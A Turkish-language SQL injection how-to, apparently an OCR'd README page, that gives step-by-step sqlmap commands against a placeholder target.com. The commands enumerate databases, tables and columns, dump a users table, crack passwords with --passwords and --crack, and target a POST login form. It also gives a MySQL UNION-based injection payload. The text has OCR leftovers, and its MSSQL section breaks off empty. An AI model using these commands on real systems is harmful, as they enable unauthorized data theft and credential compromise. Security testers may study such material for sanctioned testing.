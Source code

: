 ## SQLmap ile Veritabanındaki Tüm Verileri Görme
1. Öncelikle veritabanı adlarını listele:
bash
```bash
sqlmap -u "https://target.com/product.php?id=5" --dbs
```
- Bu komut, mevcut veritabanı isimlerini görüntüler.
2. Bir veritabanı seç ve tabloları listele:
bash
```bash
sqlmap -u "https://target.com/product.php?id=5" -D target_db --tables
```
- target_db yerine, önceki adımda bulunan veritabanı adını yaz.
3. Bir tablodaki sütunları listele:
bash
```bash
sqlmap -u "https://target.com/product.php?id=5" -D target_db -T users --columns
```

- users tablosunun sütunlarını görüntüler.
4. Tüm verileri çek (döküm al):
bash
```bash
sqlmap -u "https://target.com/product.php?id=5" -D target_db -T users --dump
```

- users tablosundaki tüm verileri getirir.
```sql
## Eğer veriler şifreli ise --passwords ve --crack parametrelerini kullanarak şifreleri çözmeyi deneyebilirsin.
```





SQL Veritabanı İsmini Öğrenme
1. SQLmap ile Otomatik Veritabanı İsmini Öğrenme
SQLmap, SQL Injection testlerini otomatikleştiren güçlü bir araçtır. Eğer bir hedef URL'nin parametre bazlı SQL Injection’a açık olup olmadığını test etmek ve veritabanı ismini öğrenmek istiyorsan:
bash
```bash
sqlmap -u "https://target.com/index.php?id=1" --dbs
```
- Açıklama:
-u: Hedef URL
```sql
--dbs: Sunucudaki tüm veritabanlarını listelemeye çalışır
```
Eğer POST metodu ile çalışıyorsa, şu şekilde kullanılabilir:
bash
```bash
sqlmap -u "https://target.com/login.php" --data="username=admin&password=1234" --dbs
```

2. UNION-Based SQL Injection ile Veritabanı İsmini Öğrenme
Union-based SQL Injection, veritabanı sistemine direkt sorgu ekleyerek veritabanı adını döndürmeye çalışır.
MySQL İçin
sql
```sql
' UNION SELECT database(), null, null-- -
```
- ️ Çıktı:
nginx
KopyalaDüzenle
test_database
MSSQL İçin
sql
```sql
```